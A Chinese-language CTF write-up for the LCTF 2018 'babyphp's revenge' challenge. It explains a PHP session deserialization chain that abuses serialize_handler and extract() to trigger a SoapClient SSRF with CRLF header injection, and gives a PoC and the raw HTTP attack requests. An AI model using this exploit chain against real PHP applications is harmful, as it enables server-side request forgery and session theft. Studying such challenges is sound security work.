

# babyphp's revenge
题目直接给出源码

```php
//index.php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?>

//flag.php
session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1") { 
    $_SESSION['flag'] = $flag;
} 
```

## Session 反序列化漏洞
该题跟 XCTF-Final-2018-bestphp 相似，其实也是同一个出题人。

看到 flag.php 猜测 SSRF，自然想到了 n1ctf-2018-hard_php，利用 `SoapClient` 进行 SSRF。而要利用该类则需要反序列化漏洞才行，这里涉及到 `session_start` 的 `options` 参数中的另一个 session 配置项 `serialize_handler`，该参数控制了 session的解析引擎，所以可以借用由解析引擎的不同导致的 session 反序列化，而此题刚好存在变量覆盖漏洞

## SSRF

因为利用 `SoapClient` 进行 SSRF 需要调用 `__call`方法，这里其实可以利用 `call_user_func` 执行对象中的方法(即 `welcome_to_the_lctf2018`)，从而触发 `__call`。



pupiles 师傅的 PoC：
```php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
                               'user_agent' => "AAA:BBB\r\n" .
                                             "Cookie:PHPSESSID=your_sessid",
                               'uri' => "http://127.0.0.1/"));

$se = serialize($b);
echo urlencode($se);
```

写入 session
```HTTP
POST /?f=session_start&name=上面生成的代码 HTTP/1.1
Host: kali:8001
Connection: close
Cookie: PHPSESSID=your_sessid
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

serialize_handler=php_serialize
```

访问触发发序列化及 SSRF
```HTTP
POST /?f=extract&name=Soapclient HTTP/1.1
Host: 172.81.210.82
Connection: close
Cookie: PHPSESSID=your_sessid
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

b=call_user_func
```

## References
[谈谈LCTF2018](http://pupiles.com/lctf2018.html)
[session_start()&bestphp](https://www.anquanke.com/post/id/164569)